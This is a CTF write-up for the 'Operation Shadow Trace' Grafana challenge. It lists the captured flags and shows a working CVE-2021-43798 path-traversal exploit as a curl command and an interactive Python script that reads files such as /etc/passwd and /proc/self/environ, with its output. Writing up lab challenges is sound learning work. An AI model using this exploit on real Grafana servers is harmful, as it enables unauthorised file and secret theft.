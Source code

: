 # Operation-Shadow-Trace
**FLAGS:**

Grafana blog:
```
PClub{Easy LFI}
PClub{4lw4ys_cl05e_y0ur_fil3s}
PClub{y0u_ar3_in_7he_sudoers_th1s_1nc1d3nt_will_n0t_be_rep0r7ed}
```

Kalpit Rama blog:
```
flag1:PClub{idk_how_this_got_typed}
```
## Grafana Blog
### Initial challenge:
**FLAG:** ```PClub{Easy LFI}```  
 
When reading the grafana blog, opened the link to the grafana login dashboard. We didn't have the login id and password.  
 
When searched for grafana and its vulnerability found about the ```Grafana 8.3.0 - Directory Traversal and Arbitrary File Read, CVE:2021-43798```.  
There existed vulnerability that local files can be directly transversed.  

The detail of the exploit is found in this link: 
https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p  

Used this on terminal and found the flag in return, and the next IP and port of next two challenges.
```
curl http://13.126.50.182:3000/public/plugins/tempo/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag 
```
Returned data: 
```
PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

Also I saw a direct transversal code when going through google, link:  
https://www.exploit-db.com/exploits/50581  
To cross check all the other plugins, I ran it with necessary changes and got the same output on other plugins too.
```
#!/usr/bin/env python3
import requests
import random
import urllib3
urllib3.disable_warnings()
PLUGIN_LIST = [ "alertlist", "annolist", "barchart", "bargauge", "candlestick", "cloudwatch", "dashlist", "elasticsearch", "gauge", "geomap", "gettingstarted", "grafana-azure-monitor-datasource", "graph", "heatmap", "histogram", "influxdb", "jaeger", "logs", "loki", "mssql", "mysql", "news", "nodeGraph", "opentsdb", "piechart", "pluginlist", "postgres", "prometheus", "stackdriver", "stat", "state-timeline", "status-history", "table", "table-old", "tempo", "testdata", "text", "timeseries", "welcome", "zipkin" ]
TARGET = "http://13.126.50.182:3000"
SESSION = requests.Session()
HEADERS = { 'User-Agent': 'Mozilla/5.0' }
# Encoded traversal (12 levels deep)
TRAVERSAL = "%2E%2E%2F" * 12 # = ../../../../... (12 times)
def attempt_read(filepath):
   plugin = random.choice(PLUGIN_LIST)
   filepath_encoded =filepath.replace("/", "%2F")
   url = f"{TARGET}/public/plugins/{plugin}/{TRAVERSAL}{filepath_encoded}"
    print(f"🔎 Trying: {url}")
    try:
        res = SESSION.get(url, headers=HEADERS, verify=False, timeout=5)
        if res.status_code == 200 and "PClub{" in res.text:
            print(f"\n✅ FLAG FOUND at: {url}")
            print(res.text)
        elif res.status_code == 200:
            print(f"[+] File accessible — plugin '{plugin}' responded:")
            print(res.text[:300] + ("..." if len(res.text) > 300 else ""))
        elif "Found" in res.text and "/login" in res.text:
            print("🚫 Redirected to login. File may exist, but access is blocked.")
        else:
            print("[-] File not found or not readable.")
    except requests.exceptions.RequestException as e:         print(f"[!] Error accessing {url}: {e}")
def main():
    print("🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace")
    print(f"🌐 Targeting: {TARGET}")
    print("📂 Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ\n")
    try:
        while True:
            filepath = input("📥 File to read: ").strip()
            if not filepath.startswith("/"):
                filepath = "/" + filepath
            attempt_read(filepath)
    except KeyboardInterrupt:
        print("\n👋 Exiting...")
if __name__ == "__main__":
    main()

... 
🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace 🌐
Targeting: http://13.126.50.182:3000 📂
Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ
📥 File to read: /tmp/flag
🔎Trying: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
🔎 Trying: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
📥 File to read: /tmp/flag
🔎 Trying: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

